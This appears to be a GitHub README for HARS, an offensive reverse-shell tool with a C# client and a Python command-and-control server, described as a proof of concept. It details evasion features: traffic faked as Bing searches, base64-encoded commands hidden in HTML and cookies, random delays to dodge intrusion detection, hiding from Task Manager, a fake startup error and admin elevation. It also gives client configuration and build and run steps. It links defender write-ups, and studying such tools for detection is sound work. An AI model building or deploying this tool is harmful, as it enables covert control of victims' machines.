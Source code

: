 # HTTP/S Asynchronous Reverse Shell

Table of contents

 1. [Introduction](#intro)
 2. [Features](#features)
 3. [Demonstration](#demo)
 4. [Configuration](#config)

------------

### Why ? 
<a name="intro"></a>

Today there are many ways to create a reverse shell in order to be able to remotely control a machine through a firewall. Indeed, outgoing connections are not always filtered.

However security software and hardware (IPS, IDS, Proxy, AV, EDR...) are more and more powerful and can detect those attacks. Most of the time the connection to a reverse shell is established through a L4 TCP tunnel.

I figured that the best way to stay undetected would be to make it look like legitimate traffic. The HTTP protocol (Layer 7) is the most used by a standard user. Moreover it is almost never filtered so as not to block access to websites.

The particularity of this POC is that the communication is completely asynchronous, and it only uses GET requests.

[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/Architecture.png?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/Architecture.png?raw=true)

### How it works ?
1) The client app is executed on the target machine.
2) The client initiates the connection with the server.
3) The server accepts the connection.

Then:  
-The client queries the server until it gets instructions.\
-The attacker provides instructions to the server.\
-When a command is defined, the client executes it and returns the result.

And so on, until the attacker decides to end the session.
[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/Concept.png?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/Concept.png?raw=true)

### Disclaimer

This tool is only intended to be a proof of concept demonstration tool for authorized security testing. Make sure you check with your local laws before running this tool.

------------

### Features 
<a name="features"></a>

Today, as a poc, the following functionalities are implemented: 

1. Fake HTTP traffic to appear as searches on bing.com.
2. Commands are base64 encoded in the HTML response.
3. The result of the commands is encoded in base64 as a cookie by the client.
4. [Optional] SSL support; by default it is a fake bing.com certificate.
5. Random delay between each client call to avoid triggering IDSs.
6. Random template is used for each response from the server.
7. Re-use of the same powershell process to avoid triggering EDRs.
8. Support for all Cmd and Powershell commands.
9. [Optional] The client can display a fake error message at startup.
10. The client is hidden from tasks manager.
11. [Optional] The client can be run as an administrator.

##### AV Detection

Only 3 out of 69 products were able to detect the client as malicious, without applying any evasive or obfuscation techniques.

[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/av_detection.png?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/av_detection.png?raw=true)

------------

### Demonstration
<a name="demo"></a>

**Client side**
[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/client_demo.gif?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/client_demo.gif?raw=true)

**Server side**
[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/server_demo.gif?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/server_demo.gif?raw=true)

------------

### Configuration
<a name="config"></a>

**Client : C Sharp**

1. Open *HARS.sln* in Visual Studio

**Config.cs**

This file contains parameters ; Assign the values you want :

    class Config
        {
            /* Behavior */
            // Display a fake error msg at startup
            public static bool DisplayErrorMsg = true;
            // Title of fake error msg
            public static string ErrorMsgTitle = "This application could not be started.";
            // Description of fake error msg
            public static string ErrorMsgDesc = "Unhandled exception has occured in your application. \r\r Object {0} is not valid.";
            // Min delay between the client calls
            public static int MinDelay = 2;
            // Max delay between the client calls
            public static int MaxDelay = 5;
            // Fake uri requested - Warning : it must begin with "search" (or need a change on server side)
            public static string Url = "search?q=search+something&qs=n&form=QBRE&cvid=";
            /* Listener */
            // Hostname/IP of C&C server
            public static string Server = "https://127.0.0.1";
            // Listening port of C&C server
            public static string Port = "443";
            // Allow self-signed or "unsecure" certificates - Warning : often needed in corporate environment using proxy
            public static bool AllowInsecureCertificate = true;
        }

**HARS.manifest**

Change this line to run by default the client with certain privileges : 

`<requestedExecutionLevel  level="requireAdministrator" uiAccess="false" />`  

With  
`<requestedExecutionLevel  level="asInvoker" uiAccess="false" />`  
or  
`<requestedExecutionLevel  level="requireAdministrator" uiAccess="false" />`  
or  
`<requestedExecutionLevel  level="highestAvailable" uiAccess="false" />`  

**Projet properties**

Here you can customize the assembly information and an icon for the file.

[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/project_config.png?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/project_config.png?raw=true)

Note : Target .NET framework version is set to 4.6 which is available by default in Windows 10.    
*For Windows 7, choose .NET 3.5 if you don't want to have to install missing features.*

#### Build

Build the project from Visual Studio.
The client should be generated in `Http Asynchronous Reverse Shell\HARS_Client\HARS\bin\Release` folder.

**Done!**

------------

**Server : Python**

**HARS_Server.py**
Location : `Http Asynchronous Reverse Shell\HARS_Server\www`

Simply change the port or location on the certificate if needed in the config section.

    # Config
    PORT = 443
    CERT_FILE = '../server.pem'

#### Run

`python HARS_Server.py`

#### Notes

-HTTP Logs are located in `Http Asynchronous Reverse Shell\HARS_Server\logs`\  
-You can add your own templates (any html page) in `Http Asynchronous Reverse Shell\HARS_Server\templates`

#### Review

A good review from the defender side by Lee Kirkpatric : https://community.rsa.com/community/products/netwitness/blog/2020/04/01/using-rsa-netwitness-to-detect-http-asynchronous-reverse-shell-hars
Another deep analysis from Nasreddine Bencherchali : https://nasbench.medium.com/understanding-detecting-c2-frameworks-hars-682b30f0505c
Ty Guys 
#BlueTeam

------------
@onSec-fr
